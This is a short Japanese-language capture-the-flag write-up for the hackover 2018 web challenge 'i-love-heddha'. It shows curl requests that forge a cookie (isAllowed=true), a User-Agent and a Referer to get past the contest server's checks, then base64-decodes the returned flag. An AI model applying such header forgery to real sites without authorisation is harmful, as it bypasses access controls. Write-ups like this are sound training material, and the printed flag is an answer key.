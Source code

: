 # i-love-heddha [web]
```
A continuation of the Ez-Web challenge. enjoy

207.154.226.40:8080
```

# do
- robots.txtを再び見て/flag/を見る
- http://207.154.226.40:8080/flag/flag.txt
- また`Cookie: isAllowed=false`なので、たぶんこの先にまたなにかある
```
vagrant@vagrant:~$ curl curl -i -H 'Cookie: isAllowed=true' http://207.154.226.40:8080/flag/flag.txt
curl: (6) Could not resolve host: curl
HTTP/1.1 200
Content-Type: text/plain;charset=UTF-8
Content-Length: 175
Date: Sat, 06 Oct 2018 22:46:06 GMT

<!DOCTYPE html>
        <head>
                <title>Wrong Browser detected</title>
        </head>
        <body>
                <p>You are using the wrong browser, 'Builder browser 1.0.1' is required</p>
        </body>
</html>
```

- `curl -i -H 'Cookie: isAllowed=true' -H 'User-Agent: Builder browser 1.0.1' http://207.154.226.40:8080/flag/flag.txt`

```
vagrant@vagrant:~$ curl -i -H 'Cookie: isAllowed=true' -H 'User-Agent: Builder browser 1.0.1' http://207.154.226./flag/flag.txt
HTTP/1.1 200
Content-Type: text/plain;charset=UTF-8
Content-Length: 183
Date: Sat, 06 Oct 2018 22:48:19 GMT

<!DOCTYPE html>
        <head>
                <title>Almost</title>
        </head>
        <body>
                <p>You are refered from the wrong location hackover.18 would be the correct place to come from.</p>
        </body>
</html>
```
- `curl -i -H 'Cookie: isAllowed=true' -H 'User-Agent: Builder browser 1.0.1' -H 'Referer:hackover.18' http://207.154.226.40:8080/flag/flag.txt`
```
vagrant@vagrant:~$ curl -i -H 'Cookie: isAllowed=true' -H 'User-Agent: Builder browser 1.0.1' -H 'Referer:hackover.18' http://207.154.226.40:8080/flag/flag.txt
HTTP/1.1 200
Content-Type: text/plain;charset=UTF-8
Content-Length: 44
Date: Sat, 06 Oct 2018 22:52:54 GMT

aGFja292ZXIxOHs0bmdyeVczYlMzcnYzclM0eXNOMH0=
```
- base64ぽい
- base64 decodeした
- `hackover18{4ngryW3bS3rv3rS4ysN0}` -> AC